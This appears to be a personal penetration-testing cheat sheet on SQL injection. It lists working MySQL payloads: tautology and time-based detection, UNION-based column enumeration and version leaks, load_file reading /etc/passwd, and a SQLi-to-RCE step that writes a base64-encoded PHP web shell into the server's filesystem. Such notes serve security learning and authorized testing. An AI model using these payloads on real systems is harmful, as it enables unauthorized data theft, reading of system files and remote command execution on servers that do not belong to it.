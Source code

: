 # Injection

All things injection

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## SQLI

### Methodology

- Check if user table is vulnerable by attempting to output all users

```
' OR 1=1;#
```

- Check if vulnerable with sleep function

Note: A `+` is added at the end of the comment in place of a space as a space is URL encoded into a `+` eventually before sending anyways.

```mysql
' + sleep(2);#
```

- Also can check with version command

```mysql
'; SELECT @@version;#
```

NOTE: The semicolon is added when creating a brand new statement
### UNION attacks

Allows an attacker to learn the number of columns in a database.

Start by identifying number of columns in the database

First Request

```mysql
' UNION SELECT 1,2,3;#
```

If vulnerable, response will be normal if given proper number of columns. Otherwise, it will be a 500 internal server error.

Therefore, starting with `' UNION SELECT 1-- -` and getting a 500 internal server error off the bat is a great sign. At that point, you just keep adding numbers to until you get expected response. The number of numbers will correspond to number of columns in the database.

### Key Takeaways

- SQL injection can be identified through almost any response code, so long as it deviates from intended behavior such as 302 becoming 500
- UNION attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION attack, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
999' UNION SELECT 1,@@version,3,4,5,6,7,8;#
```

NOTE: `ORDER BY` and `GROUP BY` can also be used to determine number of columns based on errors: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

Other sensitive parameters like `@@version` include:

```mysql
load_file('../../../../../../etc/passwd')
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php'--+
```

Requires a method of indexing the file
### Links

- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
	- [Cheat Sheet](Cheat%20Sheet.md)

